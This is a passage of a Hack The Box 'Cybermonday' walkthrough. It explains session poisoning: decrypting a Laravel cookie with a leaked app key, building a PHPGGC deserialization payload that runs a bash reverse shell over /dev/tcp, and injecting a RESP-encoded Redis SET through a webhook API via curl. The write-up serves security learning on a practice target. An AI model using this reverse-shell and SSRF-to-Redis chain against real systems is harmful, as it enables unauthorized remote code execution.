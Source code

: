 # HTB Cybermonday - Gaining a Foothold

[Initial Enumeration](htb-cybermonday-1-initial-enumeration.md)
[Webhook API Admin Access](htb-cybermonday-2-webhook-api-admin.md)
[Obtaining More Info](htb-cybermonday-3-obtaining-more-info.md)
[**Gaining a Foothold**](htb-cybermonday-4-gaining-a-foothold.md)
[Where to Now?](htb-cybermonday-5-where-to-now.md)
[Reading the Source](htb-cybermonday-6-reading-the-source.md)
[Composing Root Access](htb-cybermonday-7-composing-root-access.md)

Now that we have a possible attack vector we need to figure out how to implement it. In order to poison our Laravel session we need to know what the key for it is called in the Redis server. Laravel stores that information in a cookie that's sent to the client, however we can't just read it as it's encrypted. Lucky for us, thanks to the `.env` file, we have the key to that encryption. There are a number of scripts around to perform this decryption for us. I used the one from [hacktricks here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel#decrypt-cookie). Once you have the decryption script, set the app_key to the one in the `.env` file. Also take note of the `REDIS_PREFIX` value while you're there as we'll need this later.

Before we poison our session we'll need something to poison it with. First, download [PHPGGC](https://github.com/ambionics/phpggc) if you don't already have it. Next we need to prepare a payload to use. PHPGGC has a number of RCE exploits we could use, but some will and won't work depending on the version of Laravel. If one doesn't work, try the next. For the function and parameter we provide `phpggc` we'll use:
```shell
$ exec "/bin/bash -c 'bash -i >& /dev/tcp/<your ip>/<your port> 0>&1'"
```

Next we need a valid session cookie. Go back to the Cybermonday shopping site and log in again if you've been logged out. Open up the dev tools for your browser and copy the cookie value for `cybermonday_session`. The value is URL encoded to make sure to decode it before using it in the script we downloaded before. The decrypted value will be formatted as `<User Id>|<Session Id><Buffer Bytes>`. Copy the session id down for use in the next step.

Now we have our payload and session id, we need to prepare them in both the RESP protocol format, and then escape that string for use in our JSON. For passing a command, your RESP formatted string should look like:
```
*3\r\n$3\r\nSET\r\n$56\r\nlaravel_session:<your session id>\r\n$<payload length before JSON escape>\r\n<payload>\r\n
```

So whats going on here? Well commands are passed to RESP as an array. We're passing 3 arguments so we start our string with `*3` with `*` specifying that this is an array. Each data type identifier or piece of data is ended with `\r\n`. Next we specify the command we want to use. Our command `SET` is 3 bytes long so we specify the length as `$3` with `$` specifying that this is a "bulk string". Next is our actual command `SET`, and what follows is the same procedure with our `key` and `value` arguments for the full command. Next we escape the string so that it's passed to the webhook server properly, and we send our `curl` request:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> \
-H 'x-access-token: <your token>' \
-H 'Content-Type: application/json' \
-d '{"url": "http://redis:6379", "method": "<your prepared resp string>"}'
```

Make sure you've started your `netcat` listener, and then refresh the Cybermonday page. If all goes well, you'll have a reverse shell. If you get a deserialization error in Laravel that starts at byte 0, there was probably an issue in your formatting when sending the request. If the deserialization error starts at a later byte, or you get a different error, try a different `phpggc` exploit.

Next: [Where to Now?](htb-cybermonday-5-where-to-now.md)